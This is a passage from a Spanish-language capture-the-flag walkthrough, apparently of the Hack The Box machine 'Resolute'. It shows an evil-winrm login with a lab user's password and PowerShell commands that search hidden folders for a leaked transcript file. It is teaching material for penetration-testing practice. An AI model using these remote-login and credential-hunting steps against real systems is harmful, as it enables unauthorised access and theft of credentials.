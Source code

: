 <figure><img src="../../../.gitbook/assets/1073_vmware_SqLyN86oZP.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos con las credenciales de "melanie" y verificaremos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.169 -u 'melanie'  -p 'Welcome123!'
```

<figure><img src="../../../.gitbook/assets/1092_vmware_zGaFwdXXbb.png" alt="" width="563"><figcaption></figcaption></figure>

## Leakage Information

Revisando el equipo comprobamos que habían dos directorios ocultos con un archivo oculto.

{% code overflow="wrap" %}
```powershell
cd C:\

dir -Force

cd PSTranscripts

dir -Force

cd 20191203

dir -Force

type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
{% endcode %}
